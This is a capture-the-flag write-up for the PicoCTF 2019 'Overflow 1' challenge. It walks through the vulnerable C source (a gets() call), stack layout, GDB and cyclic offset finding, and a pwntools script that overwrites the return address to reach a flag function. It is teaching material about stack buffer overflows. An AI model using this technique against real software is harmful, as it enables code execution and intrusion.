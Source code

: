 [Back](PicoFrontPage.md)

# Overflow 1
---

### Intro
Overflow 1 focuses on the stack, more specifically, how function calls work, and thus, how we can exploit them.

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
Some important point(s):
* Calls `gets()`

#### Functions and Function Calls

When a function is called, first its parameters are thrown on the stack, then the instruction pointer (the return address), then the old base pointer, during all of this the stack pointer is constantly moving up to point to the top of the stack. Finally, the base pointer is moved up to match the stack pointer. Let's draw that out.

<!-- Insert BasicCall -->
![BasicCall](../Images/PicoCTF2019/BasicCall.jpg)

### Analysis

#### GEF-GDB

Fire up GDB for our executable (`gdb ./vuln`) and `info functions` to see all the different functions used.
You can find GDB cheat sheets online for more commands, those would be helpful.

Scrolling down, we can see some functions that are labelled `vuln` and `flag`.

<!-- Insert screenshot -->
![infofunctions](../Images/PicoCTF2019/infofunctions.jpg)

If we `disassemble main` we can also see that it calls the `vuln()` function.

<!-- Insert screenshot -->
![disasmain](../Images/PicoCTF2019/disasmain.jpg)

We can `disassemble vuln` to get a more in-depth view of what happens when `vuln` function is called.

<!-- Insert Screenshot -->
![disasvuln](../Images/PicoCTF2019/disasvuln.jpg)

If we draw this out, we can get a better understanding of what is happening.

Another important note is that, the vuln calls the `gets()` function and if we check the man page for `gets` we'll see:
`NEVER USE THIS FUNCTION`

<!-- Screenshot of man page -->
![NOGETS](../Images/PicoCTF2019/NEVERUSETHISFUNCTION.jpg)

The reason why `gets()` is extremely dangerous to use is because it will keep taking input until an EOF or newline is fed through. This allows us to overflow the buffer and leak into other important components of the stack. So in this case, we can overwrite the return address in `$eip`.

So drawing everything that was noticed before.

<!-- Insert stack image with measurements -->
![StackOverflow1](../Images/PicoCTF2019/StackOverflow1.jpg)

And thus, we can see that the buffer is `0x44`, `$ebx` is `0x4`, `$ebp` is `0x4` and `$eip` is `0x4`. (x86 32-bit has 32-bit registers = 4 bytes).
So adding them (except `$eip`), we can see that, to reach `$eip`, it is `0x4c` in hex.
Using Python on command line, we can see that `0x4c` translates to 76 bytes.
```
	python
	0x4c
```
And now we know how many bytes to feed it to reach the instruction pointer.
From here we can do neat things.

In this, we'll be making use of `cyclic`, a nice tool to help us count bytes easily.

First, give it a normal run without GEF.

1. It'll ask you for a string
2. You input a string
3. And it'll give another string output that apparently prints out the return address

Fire up the GDB again, and this time we're going to let it run through the debugger.
Now, open up another terminal and run the command `cyclic 100`, this will give you a string of 100 bytes to feed to the program.

So, let the program run through `r` or `run`, and we get met by a string output asking for our input.
Feed it the copied string generated from the `cyclic` command.

<!-- Insert the output screencap -->
![OverflowedOverflow1](../Images/PicoCTF2019/OverflowedOverflow1.jpg)

We can now see that the return address is different and we are met with a segmentation fault. This is because `0x61616174` (hex for taaa, little endian) does not actually exist, but what if we were to replace it with an address that DID exist and is in the form of a flag?
Back to the terminal with the `cyclic` command, or a new one if you closed it.
And we will be typing `cyclic -l taaa`. This will show the amount of bytes that are required to reach `taaa` or the instruction pointer (`$eip`).
We get the output of 76 and that just confirms our static analysis.

### EXPLOIT

So from here, we will be replacing the return address to the address of the flag function so that we can obtain the flag.
There are many ways to obtain the address of the flag function.
Something like doing `info functions` to find the address of the flag will work, anything goes, as long as it's right really.
`0x080485e6` - `flag()` address.

#### Pwntools

Here is the script:

```python
from pwn import *

proc = process('./vuln')

# variable for target address
addr = 0x080485e6

# set up payload, send 76 bytes of rubbish (the letter A in this case) and then the flag function address to overwrite the return address in little endian (xe6\x85\x04\x08)
payload = b'A'*76 + p32(addr)

proc.recvuntil(b'Give me a string and lets see what happens:')

proc.sendline(payload)

proc.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Back](PicoFrontPage.md)  [Overflow 2](overflow2writeup.md)